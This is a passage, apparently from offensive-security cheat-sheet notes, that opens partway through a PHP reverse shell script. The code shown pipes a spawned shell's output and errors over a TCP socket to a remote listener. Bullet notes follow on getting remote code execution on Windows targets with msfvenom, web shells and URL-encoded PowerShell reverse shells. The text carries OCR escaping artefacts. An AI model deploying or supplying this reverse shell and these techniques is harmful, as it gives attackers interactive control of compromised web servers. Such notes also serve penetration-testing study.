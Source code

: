 fwrite($pipes\[0], $input);

}

// If we can read from the process's STDOUT

// send data down tcp connection

if (in\_array($pipes\[1], $read\_a)) {

if ($debug) printit("STDOUT READ");

$input = fread($pipes\[1], $chunk\_size);

if ($debug) printit("STDOUT: $input");

fwrite($sock, $input);

}

// If we can read from the process's STDERR

// send data down tcp connection

if (in\_array($pipes\[2], $read\_a)) {

if ($debug) printit("STDERR READ");

$input = fread($pipes\[2], $chunk\_size);

if ($debug) printit("STDERR: $input");

fwrite($sock, $input);

}

}

fclose($sock);

fclose($pipes\[0]);

fclose($pipes\[1]);

fclose($pipes\[2]);

proc\_close($process);

// Like print, but does nothing if we've daemonised ourself

// (I can't figure out how to redirect STDOUT like a proper daemon)

function printit ($string) {

if (!$daemon) {

print "$string\n";

}

}

?>

* Most language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers.
  * They will not work on Windows by default.
* Obtain RCE on Windows stargets.
  * Use msfvenom to generate reverse/bind shell in the language of the server.
  * Use a web shell on Windows targets.
    * Obtaining RCE is often done with a URL Encoded Powershell Reverse Shell copied into the URL as the cmd argument.

